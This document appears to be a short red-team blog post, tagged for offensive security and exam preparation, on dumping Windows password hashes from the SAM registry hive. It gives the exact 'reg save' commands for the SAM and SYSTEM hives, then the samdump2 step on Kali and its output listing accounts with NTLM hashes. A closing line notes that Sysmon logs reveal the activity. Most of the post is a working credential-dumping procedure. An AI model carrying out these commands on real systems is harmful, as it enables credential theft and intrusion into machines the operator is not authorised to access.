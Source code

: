 ```yaml
---
layout: post
title: "dumping hashes from sam registry"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---

# Dumping Hashes from SAM via Registry

## Execution

Dumping the registry hives required for hash extraction:

{% code title="attacker@victim" %}
```erlang
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code title="attacker@local" %}
```erlang
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)
@spotheplanet
